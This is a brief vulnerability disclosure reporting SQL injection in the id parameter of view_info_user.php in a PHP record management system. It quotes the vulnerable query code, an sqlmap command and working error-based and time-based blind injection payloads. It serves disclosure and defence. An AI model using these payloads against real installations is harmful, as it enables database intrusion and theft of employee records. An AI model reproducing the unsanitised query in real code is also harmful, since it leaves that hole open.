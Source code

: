 ### VUL_AUTHOR:netmanzhang
# Record Management System - SQL Injection on (view_info_user.php id parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
view_info_user.php 

On this page, id parameter is vulnerable to SQL Injection Attack 
## Source code(Personnel_record_management_system/view_info_user.php):
```
$get_id=$_GET['id'];
$get_query=mysqli_query($conn,"select * from employee where employeeID='$get_id'")or die(mysqli_error());
$row=mysqli_fetch_array($get_query);$id=$row['employeeID'];
```
## Proof of vulnerability(Verify using the sqlmap tool):
#### -> sqlmap -u http://localhost/Personnel_record_management_system/view_info_user.php?id=166--batch
## Output:
```
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=166'||(SELECT 0x5863715a WHERE 2674=2674 AND (SELECT 6770 FROM(SELECT COUNT(*),CONCAT(0x7176767071,(SELECT (ELT(6770=6770,1))),0x716b7a7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=166'||(SELECT 0x6352424a WHERE 5250=5250 AND (SELECT 3715 FROM (SELECT(SLEEP(5)))dazK))||'
---
```
